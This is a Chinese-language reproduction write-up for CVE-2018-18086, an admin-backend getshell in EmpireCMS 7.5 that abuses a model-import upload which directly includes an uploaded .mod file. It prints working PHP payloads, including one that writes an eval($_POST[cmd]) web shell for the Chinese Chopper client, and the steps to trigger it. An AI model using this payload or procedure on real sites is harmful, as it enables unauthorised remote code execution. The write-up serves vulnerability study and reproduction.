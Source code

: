 （CVE-2018-18086）EmpireCMS 7.5 后台getshell
============================================

一、漏洞简介
------------

二、漏洞影响
------------

EmpireCMS 7.5

三、复现过程
------------

查看`/e/admin/ecmsmod.php`代码

1.png

跟随`LoadInMod`函数来到`/e/class/moddofun.php`,可以看到上传文件处使用`make_password(10)`对时间进行加密然后拼接成为上传的文件名,这样就无法得到用户名

2.png

继续浏览代码,在下面发现`@include($path)`,直接包含了这个上传的文件,这时如果在上传文件中添加可以创建文件的代码就可以绕过找不到文件名这个限制了。

3.png

我们可以构造如下payload:

    <?php file_put_contents(“shell.php”,”<?php phpinfo(); ?>”); ?>

登录后台,点击如下图所示

4.png

点击"导入系统模型"之后进入如下界面5.png

可以上传一个内容为php代码的`.mod`后缀的文件,内容如下:

6.png

上传`1.php.mod`文件

7.png

查看文件,可以看到成功上传

8.png

浏览访问`http://www.0-sec.org/e/admin/shell.php`,可以看到成功执行代码

9.png

上传一个内容可以getshell的`1.php.mod`,内容入下:注意需要对`$`进行转义

    <?php file_put_contents("caidao.php","<?php @eval(\$_POST[cmd]); ?>");?>

成功上传后,菜刀连接,成功getshell

10.png

参考链接
--------

> https://www.shuzhiduo.com/A/ZOJPejmP5v/
